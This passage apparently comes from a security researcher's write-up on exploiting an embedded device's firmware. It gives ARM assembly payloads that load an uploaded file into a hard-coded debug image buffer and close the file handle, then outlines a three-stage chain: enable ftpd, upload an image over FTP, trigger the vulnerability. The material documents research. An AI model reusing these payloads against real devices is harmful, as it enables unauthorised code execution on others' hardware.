 The image being too large to store on the stack, we could decide to dynamically allocate a buffer. However, the firmware contains debug images stored in writable memory, so we decided to overwrite one of them instead to simplify the exploit. We went with `0x436A3F64`, which originally contains a screenshot of a calculator.

Here is the payload to read the content of the file into this buffer:

```asm
; Get address of image buffer
mov r10, #0x3F64
movt r10, #0x436A

; Compute image size
mov r2, #320       ; Width
mov r3, #240       ; Height
mov r6, #3         ; Depth
mul r6, r6, r2
mul r6, r6, r3

; Read content of file in buffer
mov r3, #0         ; Bytes read
mov r4, r6         ; Bytes left to read
.loop:
mov r2, r4         ; Number of bytes to read
add r1, r10, r3    ; Buffer position
mov r0, r5         ; File handle
mov r12, #0x1A20
movt r12, #0x4169
blx r12
cmp r0, #0
ble .end_read      ; Exit in case of an error
add r3, r3, r0
sub r4, r4, r0
cmp r4, #0
bgt .loop
```

For completeness, here is how to close the file:

```asm
mov r0, r5
mov r12, #0x1878
movt r12, #0x4169
blx r12
```

## Putting everything together

In the end, our exploit is split into 3 parts:

1. Execute a first payload to enable the `ftpd` service and change to the `S:/` directory,
2. Upload our image using FTP,
3. Exploit the vulnerability with another payload reading the image and displaying it on the screen.
